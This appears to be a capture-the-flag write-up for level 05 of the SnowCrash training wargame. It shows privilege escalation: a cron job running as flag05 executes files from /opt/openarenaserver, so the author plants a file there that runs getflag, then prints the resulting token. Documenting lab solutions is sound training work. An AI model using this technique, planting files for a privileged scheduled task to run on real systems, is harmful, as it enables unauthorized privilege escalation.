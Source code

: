 ## Level 05

When we are logged with the level05 user we can see the following message
```bash
level05@192.168.56.101's password:
You have new mail.
```

This mean there are file in our mail folder.

```bash
level05@SnowCrash:~$ ls -l $MAIL
-rw-r--r--+ 1 root mail 58 Jul 15 22:03 /var/mail/level05
```
```bash
level05@SnowCrash:~$ cat $MAIL
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

When we look at the level05 file we see a cron task executed all 2 minute. It run the openarenaserver file with the flag05 permission. After looking on internet we see that openarenaserver is a game taking configuration file

The following error message is showed when
```bash
level05@SnowCrash:~$ bash /usr/sbin/openarenaserver
bash: /opt/openarenaserver/*: No such file or directory
```

We write a file that will execute getflag and send the result in /tmp/flag
```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/conf
```

After waiting 2 minute we can get the flag00
```bash
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
